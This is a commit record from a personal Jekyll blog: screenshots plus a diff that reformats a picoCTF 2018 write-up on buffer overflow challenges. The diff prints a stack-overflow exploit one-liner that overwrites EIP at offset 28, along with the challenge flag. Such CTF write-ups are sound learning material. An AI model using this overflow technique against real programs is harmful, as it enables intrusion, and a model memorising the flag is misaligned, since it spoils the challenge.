

Before and after one commit to drtychai/drtychai.github.io, a Jekyll site: the page built from _posts/picoCTF-2018/2018-10-13-picoCTF.md, in a window 1280 px wide and 900 px high, scrolled down 1608 px. Shown: the whole window, without its empty margins (208-1068 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown.

Commit message:
updated formatting

````diff
--- a/_posts/picoCTF-2018/2018-10-13-picoCTF.md
+++ b/_posts/picoCTF-2018/2018-10-13-picoCTF.md
@@ -7,8 +7,7 @@
 # Description
 This was my first time playing in picoCTF. I was pleasantly surprised with the quality and progression of the challenges. Using this to my advantage, I decided to go through the binary exploitation series in an attempt to better hone my fundamentals and exploit development skills.
 
-# Binary Exploitation
-## Buffer Overflow 0
+# Buffer Overflow 0
 In this challenge, we're given a vulnerable binary and it's corresponding source code.
 
 ```
@@ -64,12 +63,12 @@
 Using `pattern_create.rb` and `pattern_offset.rb` we find the offset of `eip` is 28 characters. In gdb:
 `run $(\`locate pattern_create\` -l 50)`
 
-This displays the crash and tells us that `eip` is trying to find the address of `a9Ab`. Using `\`locate pattern_offset.rb\` -q a9Ab` we know now that any input after 28 characters will overwrite `eip`. Thus, we can disasemble the function `sigsegv_handler` and overwrite `eip` with it's address.
+This displays the crash and tells us that `eip` is trying to find the address of `a9Ab`. Using `\/`locate pattern_offset.rb\` -q a9Ab` we know now that any input after 28 characters will overwrite `eip`. Thus, we can disasemble the function `sigsegv_handler` and overwrite `eip` with it's address.
 
-`./vuln \`python -c 'print "A"*28 + "\x2b\x86\x04\x08"'\``
-`picoCTF{ov3rfl0ws_ar3nt_that_bad_b49d36d2}`
+```./vuln $(python -c 'print "A"*28 + "\x2b\x86\x04\x08"')
+picoCTF{ov3rfl0ws_ar3nt_that_bad_b49d36d2}```
 
-## Buffer Overflow 1
+# Buffer Overflow 1
 Similar to the previous challenge, we are give a binary and it's source code.
 ```
 #include <stdio.h>
````
